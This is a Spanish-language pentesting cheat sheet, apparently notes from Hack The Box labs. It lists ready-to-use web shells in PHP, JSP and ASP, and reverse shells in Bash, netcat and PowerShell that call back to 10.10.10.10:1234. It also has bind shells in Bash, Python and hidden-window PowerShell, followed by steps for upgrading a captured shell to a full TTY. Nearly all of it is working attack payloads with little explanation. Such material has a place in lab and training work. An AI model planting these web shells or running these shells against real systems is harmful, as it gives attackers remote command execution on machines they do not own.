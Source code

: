 
## web shells

### PHP

```
<?php system($_GET['cmd']);?>
```

### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```asp
<% eval request("cmd") %>
```
## Reverse shells

La maquina se conecta a nosotros 
### Bash

```
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

### PowerShell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


## Bind shells 

Nosotros nos conectamos al puerto en escucha de la maquina

### bash

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

### Python 

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### PowerShell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

## Mejorar la Shell


1. En la shell
```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. Ctrl+z
3. En kali:
```shell-session
bonack@htb[/htb]$ stty raw -echo
bonack@htb[/htb]$ fg
```

4. (si se ve petit)

En kali :

```shell-session
bonack@htb[/htb]$ echo $TERM

xterm-256color
```

```shell-session
bonack@htb[/htb]$ stty size

67 318
```

En netcat:

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```
